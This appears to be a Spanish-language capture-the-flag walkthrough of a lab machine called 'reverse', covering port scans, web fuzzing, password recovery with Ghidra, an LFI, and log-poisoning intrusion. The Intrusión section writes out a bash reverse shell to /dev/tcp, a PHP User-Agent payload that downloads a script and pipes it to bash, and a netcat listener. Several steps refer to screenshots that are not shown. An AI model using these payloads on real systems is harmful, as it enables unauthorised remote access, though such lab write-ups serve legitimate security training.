



# Maquina reverse

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 vvv -Pn 172.17.0.2

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

no se encontró nada

Entrando en la web:

y al hacer multiples veces clic

accedí a /scret_dir y lo descargué con wget

lo ejecuté:

lo analicé con ghidra

aquí vi la contraseña:
@MiS3cRetd00m

lo volví a ejecutar

lo desencripté con base64:

como se trata de un subdominio lo agrego al /etc/hosts

accedemos a http://g00dj0b.reverse.dl/

la url pinta como LFI:

entonces buscamos el /etc/passwd

accedí a access.log:

### Intrusión

Con la técnica de Log Poisoning

a.- Creamos un archivo shell con el siguiente contenido:

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

b.- Levantamos un servidor con python

python3 -m http.server 80

c.- Enviamos la shell por curl.

curl -i 172.17.0.2 -A "<?php system('curl 172.17.0.1:80/shell | bash'); ?>"

d.- Recargamos la web con la url que tiene el /var/log/apache2/access.log

e.- Ponemos en escucha con netcat

sudo nc -nlvp 443

### Escalar privilegios

transferí el rockyou con wget

contenido del archivo:

siendo nova hice sudo -l

creo un codigo.c

lo compilo y ejecuto:

siendo maci:

